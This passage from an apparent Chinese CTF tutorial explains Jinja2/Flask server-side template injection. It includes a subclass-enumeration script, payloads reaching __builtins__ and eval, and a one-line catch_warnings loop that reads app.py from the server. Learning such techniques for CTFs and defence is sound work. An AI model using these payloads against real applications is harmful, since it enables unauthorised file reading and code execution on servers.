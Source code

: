 3.然后呢可能上面有点麻烦，咱们也可以编写一个 python 脚本，当然就是直接传给参数那种的题目或实战，不然像 Flaskapp 就不能这样了（别着急，这个也有应对方法），下面写个脚本哈，很简单的

```
code = 'eval'             # 查找包含 eval 函数的内建模块的类型
i = 0
for c in ().__class__.__base__.__subclasses__():
    if hasattr(c,'__init__') and hasattr(c.__init__,'__globals__') and c.__init__.__globals__['__builtins__'] and c.__init__.__globals__['__builtins__'][code]:
        print('{} {}'.format(i,c))
    i = i + 1
```

这个甚至简单到直接用 chatgpt 写也成，然后的话给大家看看这个脚本的利用结果哈

![](image-17.png)

然后写个 payload 验证一下里面有没有 eval 哈，别说我骗你，就选 77 啦

```
name=\{\{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']\}\}
```

![](640.png)

可以看到几个敏感函数 eval、open、file 等等，应有尽有。这样我们就可以做很多我们想做的事了。

4.然后针对于像 Flaskapp 这种 ex 题，我在网上又向师傅学习了种新姿势，就是直接在 SSTI 注入那里编写循环脚本，这样甚至都不用 python 了，我给大家找了一个例子哈，就用 Flaskapp 这道题，这个题网上有位师傅也是用的 catch_warnings 这个类，下面就是具体的利用脚本，直接粘在输入框里面就行（注意写成一行）

```
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		\{\{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() \}\}
	{% endif %}
{% endfor %}
```

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}\{\{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() \}\}{% endif %}{% endfor %}
```

**难**：看到这里了，在你以后碰到 SSTI 基本上你是没啥大问题了，但当遇到 jinja2 框架时候，教你一招通杀它，这里给大家展示一下大佬儿的思路（真的 nb）

![](640.jpg)

1.是这样的，有位师傅自称在编写脚本和将 Payload 输入浏览器的时候，因手误无意中组成了一个错误的 Payload：

```
name=\{\{().__class__.__base__.__subclasses__().c.__init__.__globals__['__builtins__']['eval']('abs(-1)')\}\}
```

然后竟然访问成功了！！！

2.那么为什么会访问成功呢？

().class.base.subclasses()理应返回的是 object 类型的所有子类的列表，是不应该包含 c 这个属性的；理论上应该造成服务端错误返回 500，服务器日志显示 AttributeError: 'list' object has no attribute 'c'，但是结果却是成功执行了，意识到 jinja2 的沙箱环境，跟普通 Python 运行环境还是有很多不同的。
